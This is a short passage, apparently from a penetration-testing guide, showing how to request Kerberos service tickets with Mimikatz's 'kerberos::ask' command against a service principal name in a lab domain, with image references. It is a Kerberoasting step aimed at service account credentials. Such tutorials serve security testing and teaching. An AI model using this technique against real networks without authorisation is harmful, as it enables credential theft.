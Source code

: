 ![](<../../../.gitbook/assets/image (177).png>)

### Using Mimikatz

An alternative solution to request service tickets is through Mimikatz by specifying as a target the service principal name.

```
kerberos::ask /target:PENTESTLAB_001/WIN-PTELU2U07KG.PENTESTLAB.LOCAL:80
```

![](<../../../.gitbook/assets/image (175).png>)
